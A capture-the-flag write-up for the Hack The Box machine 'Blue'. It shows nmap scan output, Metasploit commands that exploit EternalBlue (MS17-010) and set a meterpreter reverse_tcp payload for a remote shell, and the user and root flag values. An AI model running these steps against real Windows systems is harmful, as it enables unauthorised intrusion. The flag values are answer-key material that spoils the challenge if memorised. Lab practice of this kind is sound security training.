


# Blue <!-- omit in toc -->


# Table of Contents <!-- omit in toc -->
- [Scan Results](#scan-results)
  - [Nmap](#nmap)
- [Expolit](#expolit)
- [Post Exploit](#post-exploit)
- [Flags](#flags)
    - [**User Flag**](#user-flag)
    - [**Root Flag**](#root-flag)

# Scan Results

## Nmap
```
# Nmap 7.80 scan initiated Tue Mar  3 16:46:47 2020 as: nmap -sC -sV -oA ./Documents/HackTheBox/Blue/Scans/nmap 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.099s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8s, deviation: 1s, median: 7s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-03-03T16:48:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-03T16:47:59
|_  start_date: 2020-03-03T16:42:50

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  3 16:48:00 2020 -- 1 IP address (1 host up) scanned in 73.15 seconds
```

**Notice:**

 1. The script tells us this is a windows 7 service pack 1 machine.
 2. The computer name is: haris-PC. might be a user called haris.


# Expolit
This box has many ports open. The results of the nmap script tells us that we should look for something that has to do with smb on windows 7 service pack 1. 

For more hints we can look at the web page on hackthebox ([Blue](https://www.hackthebox.eu/home/machines/profile/51)). This is a simple box based on a CVE.

Searching through exploit-DB shows alot of options, the most promessing exploits refer to EternalBlue (MS17-010) exploit. Searching google yields this [result](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010) - Metasploit has a scanner for this exact exploit.

So, lets open msfconsole and type:

```
use auxiliary/scanner/smb/smb_ms17_010
```

Setting RHOSTS to the box ip 10.10.10.40 we get:



The box is vulnerable to eternalblue exploit.

So to use it:

```
use exploit/windows/smb/ms17_010_eternalblue
````
Set RHOSTS to the box ip. This exploit grants a root shell so no need for meterpreter here, but just for the practice lets use it. Set the payload as meterpreter where LHOST is our ip.

```
set payload windows/x64/meterpreter/reverse_tcp
```

We get a meterpreter session on the box.

# Post Exploit

Navigate to `C:\Users` to see which users are on the box. Just like we saw on the nmap results, there is a user called haris and Administrator.



The flags are on the Desktop of each user.

# Flags

### **User Flag**
in the desktoip of user haris: **4c546aea7dbee75cbd71de245c8deea9**

### **Root Flag**
in the desktop of the Administrator: **ff548eb71e920ff6c08843ce9df4e717**
